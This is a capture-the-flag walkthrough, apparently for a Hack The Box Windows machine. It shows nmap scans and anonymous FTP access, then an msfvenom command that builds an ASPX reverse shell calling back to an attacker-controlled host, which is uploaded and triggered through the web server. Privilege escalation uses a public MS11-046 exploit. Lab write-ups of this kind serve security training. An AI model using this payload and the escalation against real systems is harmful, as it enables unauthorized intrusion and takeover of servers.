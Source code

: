 # Recon
### nmap

```bash
# Nmap 7.92 scan initiated Fri Oct 29 09:59:14 2021 as: nmap -sS --min-rate 5000 --open -vvv -p- -n -Pn -oG allPorts 10.10.10.5
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.5 ()	Status: Up
Host: 10.10.10.5 ()	Ports: 21/open/tcp//ftp///, 80/open/tcp//http///	Ignored State: filtered (65533)
# Nmap done at Fri Oct 29 09:59:40 2021 -- 1 IP address (1 host up) scanned in 26.50 seconds
```

```bash
# Nmap 7.92 scan initiated Fri Oct 29 10:01:03 2021 as: nmap -sCV -p21,80 -oN tcpscript 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 10-29-21  03:14PM                 2936 reverse.aspx
| 10-29-21  04:02AM                 2770 shell.aspx
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 29 10:01:40 2021 -- 1 IP address (1 host up) scanned in 36.53 seconds
```

#### Website - TCP 80
<img src="/assets/img/devel/1.png">

So, nothing interesting here to do.

#### FTP 21
<img src="/assets/img/devel/2.png">

We can get access as anonymous. Username `anonymou` password `just press enter`.

After watching the directory, we can find some files.
Lets watch them on the web.

<img src="/assets/img/devel/3.png">

<img src="/assets/img/devel/4.png">

#### Shell
After looking all the files, it looks like I can Upload some files. So, I'm gonna make a reverseshell with `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=xx.xx.xx.xx LPORT=1234 -o shell.aspx
```

Now, lets put it on.

<img src="/assets/img/devel/5.png">

Then We can just start listening and opened at the web.

<img src="/assets/img/devel/6.png">

## Shell as Root
#### Enumeration
<img src="/assets/img/devel/7.png">

The machine as a OS version really vulnerable, we just need to find it at internet.

`MS11-046 exploit github`

We find the github and use it to dorp in the machine.

<img src="/assets/img/devel/8.png">

<img src="/assets/img/devel/9.png">

We go to the directoy we drop the file. then just execute it and we are now root(administrator) of the file.

<img src="/assets/img/devel/10.png">










